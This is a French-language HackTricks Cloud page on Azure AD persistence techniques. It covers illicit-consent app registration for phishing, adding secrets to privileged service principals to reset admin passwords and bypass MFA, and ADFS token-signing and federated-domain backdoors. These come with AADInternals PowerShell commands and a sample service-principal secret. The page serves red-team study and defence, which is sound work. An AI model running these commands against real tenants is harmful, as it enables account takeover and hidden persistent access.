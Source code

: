# Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Consentement Illicite

Par défaut, tout utilisateur peut enregistrer une application dans Azure AD. Vous pouvez donc enregistrer une application (uniquement pour le locataire cible) qui nécessite des autorisations à fort impact avec le consentement de l'administrateur (et l'approuver si vous êtes l'administrateur) - comme envoyer des mails au nom d'un utilisateur, gestion des rôles, etc. Cela nous permettra d'**exécuter des attaques de phishing** qui seraient très **fructueuses** en cas de succès.

De plus, vous pourriez également accepter cette application avec votre utilisateur comme moyen de maintenir l'accès.

### Applications et Principaux de Service

Avec les privilèges d'Administrateur d'Application, GA ou un rôle personnalisé avec des permissions microsoft.directory/applications/credentials/update, nous pouvons ajouter des identifiants (secret ou certificat) à une application existante.

Il est possible de **cibler une application avec des autorisations élevées** ou **d'ajouter une nouvelle application** avec des autorisations élevées.

Un rôle intéressant à ajouter à l'application serait le **rôle d'administrateur d'authentification privilégiée** car il permet de **réinitialiser le mot de passe** des Administrateurs Globaux.

Cette technique permet également de **contourner la MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Pour l'authentification basée sur des certificats

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Fédération - Certificat de signature de jeton

Avec des **privileges DA** sur AD sur site, il est possible de créer et d'importer de **nouveaux certificats de signature de jeton** et de **décryptage de jeton** qui ont une très longue validité. Cela nous permettra de **nous connecter en tant que n'importe quel utilisateur** dont nous connaissons l'ImuutableID.

**Exécutez** la commande ci-dessous en tant que **DA sur le(s) serveur(s) ADFS** pour créer de nouveaux certificats (mot de passe par défaut 'AADInternals'), les ajouter à ADFS, désactiver le renouvellement automatique et redémarrer le service :
```powershell
New-AADIntADFSSelfSignedCertificates
```
Ensuite, mettez à jour les informations du certificat avec Azure AD :
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Fédération - Domaine de confiance

Avec des privilèges GA sur un locataire, il est possible d'**ajouter un nouveau domaine** (doit être vérifié), de configurer son type d'authentification en tant que Fédéré et de configurer le domaine pour **faire confiance à un certificat spécifique** (any.sts dans la commande ci-dessous) et à l'émetteur :
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Références

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
